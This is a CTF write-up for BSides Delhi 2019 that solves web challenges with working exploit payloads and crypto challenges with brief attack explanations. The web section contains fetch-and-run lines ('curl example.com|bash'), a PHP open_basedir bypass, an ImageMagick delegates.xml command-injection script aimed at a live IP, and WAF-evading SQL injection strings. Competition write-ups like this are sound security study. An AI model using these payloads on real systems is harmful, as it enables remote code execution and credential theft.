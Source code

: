 # BSides Delhi CTF 2019

**It's recommended to read our responsive [web version](https://balsn.tw/ctf_writeup/20190928-bsidesdelhictf/) of this writeup.**


 - [BSides Delhi CTF 2019](#bsides-delhi-ctf-2019)
   - [Web](#web)
     - [Weird Calculator](#weird-calculator)
     - [Eval Me](#eval-me)
     - [Seek You El](#seek-you-el)
   - [Crypto](#crypto)
     - [SecureMAC](#securemac)
       - [First Part](#first-part)
       - [Second Part](#second-part)
     - [BabyRSA](#babyrsa)
     - [ExtendedElgamal](#extendedelgamal)


## Web

### Weird Calculator

After a little fuzzing we found it's running nodejs `eval`.

```
require('child_process').exec('curl example.com|bash')
```

Half of the flag is in source code, and the other is in a another file.

Flag: `bsides_delhi{Prototype_nd_sh3ll1ng_by_the_Cs1de}`

### Eval Me

In this callenge, we can execute php `eval()` but it has lots of disabled functions. `openbase_dir` is also set.

Let's first bypass `openbae_dir` to see if we can directly read the flag.

```php
<?php
var_dump(getcwd());
mkdir('foo');
chdir('foo');
ini_set('open_basedir','..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
ini_set('open_basedir','/');
var_dump(file("/flag")); // because fopen, file_get_contents are disabled
var_dump(getcwd());
foreach (glob("/*flag") as $filename) {                                                                                        
    echo "$filename size " . filesize($filename) . "\n";
}
```

Sadly, no. We need to execute `/readFlag`.

Let's collect more information:
1. `putenv` is not in disabed functions.
2. `imagemagick` plugin is installed.

First, I tried to overwrite `$PATH` but it somehow does not work....

Anyway, at least we can bypass the php sandbox via LD_PRELOAD + imagemagick. Please see the [Wallbreaker easy from 0CTF/TCTF Quals](https://balsn.tw/ctf_writeup/20190323-0ctf_tctf2019quals/#wallbreaker-easy) here.

However, I found another [interesting writeup](https://www.cnblogs.com/wfzWebSecuity/p/11279895.html). Section 3-1 shows that we can also overwrite `delegate.xml` by defining `MAGICK_CONFIGURE_PATH` environment variable.

This is much more interesting compared to the `LD_PRELOAD` trick. Let's try this.

```python
#!/usr/bin/env python3
import requests
s = requests.session()
payload='''
error_reporting(E_ALL);
ini_set('display_errors', 1);
mkdir('foo');
chdir('foo');
ini_set('open_basedir','..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
ini_set('open_basedir','/');
var_dump("------------------------------------------");
var_dump($SANDBOX);
var_dump($_FILES["file"]);
mkdir("/var/tmp/.systemd");
$fileext="pokemon";
var_dump(move_uploaded_file($_FILES["file"]["tmp_name"], "/var/tmp/.systemd/delegates.xml"));
var_dump(move_uploaded_file($_FILES["img"]["tmp_name"], "/var/tmp/.systemd/.a.".$fileext));
foreach (glob("/var/tmp/.systemd/.*") as $filename) {
    var_dump("$filename size " . filesize($filename) . "\n");
}
__halt_compiler();
array_map('rmdir', glob("/var/tmp/*"));
putenv('MAGICK_CONFIGURE_PATH=/var/tmp/.systemd');
var_dump(file("/var/tmp/.systemd/.a.".$fileext));
$img = new Imagick('/var/tmp/.systemd/.a.'.$fileext);
var_dump($img);
$img = new Imagick('/var/tmp/.systemd/.a.'.$fileext);
var_dump($img);
var_dump("------------------------------------------");
'''.replace('\n', '')
r = s.post('http://34.67.7.120/', params=dict(input=payload), files={'file': ('foo', '''
<delegatemap>
  <delegate decode="pokemon" command="sh -c &quot;curl example.com|bash&quot;"/>
</delegatemap>
'''), 'img': ('bar', 'bazz')})
print(r.text)
```
Flag: `bsides_delhi{PHP-Imagick,isn't_fun??SOFFICE}``



### Seek You El

In this challenge, there is a SQL Injection on the pw parameter.

We need to login as admin to get the flag, but `/?%5f=' or 1=1 and user=x'61646d696e'#` not work.

So maybe we need to get the `pw` value of the `admin` to login.

And there is WAF in this challenge, we can't use `()`, `select`, `sleep`, ....

Then I found that we can use SQL error to do boolean-based SQL Injection:

`/?%5f='or ~0+1#` => Error

`/?%5f='or ~0+0#` => OK

OK, let's dump pw:

`/?%5f='or user=x'61646d696e' and (~(ascii(mid(pw,1,1))>0)+1) #`

`/?%5f='or user=x'61646d696e' and (~(ascii(mid(pw,1,1))>100)+1) #`

...

Then we have `pw`: `9f3b7c0e1a`

Using this pw to login and get the flag:

![](https://github.com/w181496/CTF/raw/master/bsides_delphi_ctf_2019/SeekYouEl/seek.png)

`bsides_delhi{sequel_injections_are_really_great_i_guess_dont_you_think?}`

## Crypto

### SecureMAC

Two parts in this challenge:
1. get the key
2. generate a collision to this mac

#### First Part

Same technique as in [CSAW CTF - Fault Box](https://github.com/OAlienO/CTF/tree/master/2019/CSAW-CTF/Fault-Box)

let `f` be `bytes_to_long("fake_flag")`
`c` will be `f ** e + k * p` for some `k`
We know the value of `f ** e`
Simply calculate `gcd(f ** e - c, n)` will give us prime factor `p`, then we can factor `n`

#### Second Part

To make things simple, we send messages of 32 bytes.
Both `messageblocks[1]` and `tag`, which is `ECB.encrypt(messageblocks[0])` we can control
Just make the result of `strxor` be the same

flag: `bsides_delhi{F4ult'n'F0rg3_1s_@_b4d_c0mb1n4ti0n}`

### BabyRSA

This is yet another RSA challenge
`salt` can be decrypt directly
Then, use wiener attack to factor `n = p * q` and get `p1 * p2`
Simply gcd `p1 * p2` with `n1` and `n2` and get all the prime factors
Note that `gcd(e1, (p1 - 1) * (q1 - 1)) != 1` and `gcd(e2, (p2 - 1) * (q2 - 1)) != 1`, we can't directly decrypt `magic`
Luckily, `gcd(e1, q1 - 1) == 2` and `gcd(e2, q2 - 1) == 2`
We can get `m ** 2 % q1` and `m ** 2 % q2`
Then use the same technique as in Rabin cryptosystem, which is modular square root and chinese remainder theorem

flag: `bsides_delhi{JuG1iNg_WiTh_RS4}`

### ExtendedElgamal

`rand = lambda: random.randint(133700000,2333799999)` this is a small range
Brute force it and get `z`
Then calculate `e / (g^k)^z` to get `m`

flag: `bsides_delhi{that5_som3_b4d_k3y_generation!}`
